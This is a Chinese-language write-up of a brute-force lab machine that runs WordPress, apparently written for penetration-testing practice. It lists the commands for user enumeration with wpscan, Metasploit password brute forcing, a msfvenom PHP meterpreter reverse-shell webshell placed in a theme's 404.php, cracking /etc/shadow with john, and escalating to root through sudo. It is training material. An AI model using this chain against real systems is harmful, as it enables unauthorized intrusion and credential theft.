# 暴力破解靶场

## 信息收集

靶机IP：192.168.1.10

扫描主机





开放了ftp服务、ssh服务和http协议

## 目录探测

对于开放了http协议的靶机，我们可以使用浏览器登录并探测目录





访问目录挖掘有用信息

## 信息挖掘

访问/secret/目录



可以看到一个跳转到登录页的log in 

然而点进去无法访问，发现此时url为http://vtcsec/secret/wp-login.php，显然服务器不认识vtcsec

我们有两种方法：

​	1、修改vtcsec为靶机IP地址



​	2、在/etc/hosts文件中添加内容



再次访问：



接下来暴力破解出密码

## 暴力破解

### 用户名

wpscan对登录网页用户名进行探测

> wpscan是一个专门用于WordPress安全扫描工具，通常用来扫描WordPress网站的漏洞
>
> --url 指定要扫描的url地址   --enumerate u 表示扫描过程中将理出WordPress中的用户

 wpscan --url vtcsec/secret/ --enumerate u



扫描出用户名为admin

### 密码破解

使用msf，针对用户名admin探测密码

```
msfconsole
>use auxiliary/scanner/http/wordpress_login_enum
>set username admin
>set pass_file /usr/share/wordlists/dirb/common.txt
>set targeturi 目标url
>set rhosts 靶机IP地址
>run
```



爆破出结果为：



admin：admin

成功登入如下页面:




## webshell

熟悉的wordpress界面，我们将木马文件上传到Appearance/Editor/404 Template下的404.php

### 生成webshell

使用msfvenom生成webshell文件

> msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.13  lport=4444 -f raw



### 上传Webshell并开启监听

将生成的php木马粘贴到404.php中



开启监听

```
> use exploit/multi/handler 
> set payload php/meterpreter/reverse_tcp
> set lhost 192.168.1.13
> run
```

访问木马文件获得shell

http://vtcsec/secret/wp-content/themes/twentyseventeen/404.php



### 查看权限



显然我们目前得到的是www-data权限，不具备root权限

使用sudo -l命令，输入弱口令尝试登录，发现也失败，因此我们需要找到这个密码



## 提权

获取www-data权限下的/etc/passwd文件和/etc/shadow文件

使用john破解密码



得到了

marlinspike：marlinspike

我们可以用marlinspike用户登录看看



成功登录

在当前用户下进行提权：

查看可执行权限：ALL



使用sudo bash命令提权：



成功获得root权限！


